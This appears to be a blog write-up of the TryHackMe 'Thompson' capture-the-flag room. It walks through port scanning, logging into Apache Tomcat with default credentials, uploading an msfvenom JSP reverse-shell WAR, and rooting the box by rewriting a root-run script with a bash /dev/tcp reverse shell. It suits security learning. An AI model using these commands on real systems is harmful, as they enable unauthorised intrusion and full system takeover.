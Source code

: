 ```yaml
---
layout: post
title: "Thompson"
date: 2022-10-08
categories: [Tryhackme, Easy-THM]
tags: [rustscan, apache-tomcat, metasploit, jsp-shell, file-upload, war]
image: ../../assets/img/posts/thompson.png 

---
```


## Description

boot2root machine for FIT and bsides guatemala CTF.

|**Room**|[Thompson](https://tryhackme.com/room/bsidesgtthompson)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[stuxnet](https://tryhackme.com/p/stuxnet)|

---

Deploy the machine and quickly scan the ports with rustscan,

```bash
rustscan -a 10.10.252.111
```

![image](https://user-images.githubusercontent.com/67465230/187013689-5c19f53d-2376-4a65-bc02-f92df535f6be.png)

we get 3 open port. Lets scan this using nmap,

```bash
nmap -sV -sC -p22,8009,8080 10.10.252.111 -oN nmap.txt
```

![image](https://user-images.githubusercontent.com/67465230/187013705-360484fd-3ff7-4b77-a5d0-a99b66c3c41e.png)

Result scan reveals that port 22 is running ssh service. Port 8009 is running AJP13 service and port 8080 is running apache tomcat webserver. Let's enumerate port 80.

Visit http://10.10.252.111:8080/,

![image](https://user-images.githubusercontent.com/67465230/187013710-90ae304f-88bf-4477-8470-2aab9f5aa74c.png)

and we land on a default tomcat webpage. Enumerating it will show us that there is a Host Manager which contains login mechanism. If we use credentials which are wrong, we are directed to error page which contains tomcat default credentials.

Using tomcat:s3cret, we get in,

![image](https://user-images.githubusercontent.com/67465230/187013713-899842b1-79fe-4b92-ba35-77cdaf12cf85.png)

Scrolling down, there is an area where we can upload .war files,

![image](https://user-images.githubusercontent.com/67465230/187013720-60305488-f018-4273-b7cb-ec85108eab6d.png)

Now, generate payload using msfvenom.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.9.0.182 LPORT=4444 -f war > test.war
```

Booting up metasploit and setting up a listener,

```bash
use exploit/multi/handler
```

![image](https://user-images.githubusercontent.com/67465230/187013724-96b1646b-964d-49bf-a17c-1674769a0c13.png)

setting `options`:
- **set payload java/jsp_shell_reverse_tcp**
- **set lhost 10.9.0.182**
- **run**

Deploy the war file,

![image](https://user-images.githubusercontent.com/67465230/187013728-de071b19-4da2-4021-ba2f-2819e8081e40.png)

and click the file to trigger the shell.

We will then got a shell,

![image](https://user-images.githubusercontent.com/67465230/187013734-506a0663-d0cd-4661-bbdf-56623eb51c88.png)

But since it is an under privilege shell, we can make this shell more responsive, `python3 -c 'import pty;pty.spawn("/bin/bash")'`.

Navigating to home directory and listing content,

![image](https://user-images.githubusercontent.com/67465230/187013748-93b92e78-e13b-4de9-9958-cfb5550f2819.png)

we got jack user.

Navigating to user directory and listing content,

![image](https://user-images.githubusercontent.com/67465230/187013761-c3144a05-bbc8-46ab-8e69-a623fc454db6.png)

we got user flag. 

There is also a bash script named **id.sh**,

![image](https://user-images.githubusercontent.com/67465230/187013766-b66a4ca9-0701-487a-a733-edbb59839ea4.png)

what this script doing is that it is putting output of `id` command into test.txt file.

Let's take a look at test.txt file,

![image](https://user-images.githubusercontent.com/67465230/187013772-04a95472-1017-4cc6-b5a1-15ed7ccff9fd.png)

this will show us the id of root user which means that whatever will run from id.sh file, it will run by root. So we can put our one-liner reverse shell. Start a netcat listener using, `nc -nvlp 5555`.

Now, copy the following content into id.sh file

```bash
echo "#!/bin/bash
bash -c 'exec bash -i &>/dev/tcp/10.9.0.182/5555 <&1'" > id.sh
```

and we got a shell,

![image](https://user-images.githubusercontent.com/67465230/187013783-06a4578d-84de-4ab4-bdf5-e104f78f39b8.png)

We are root.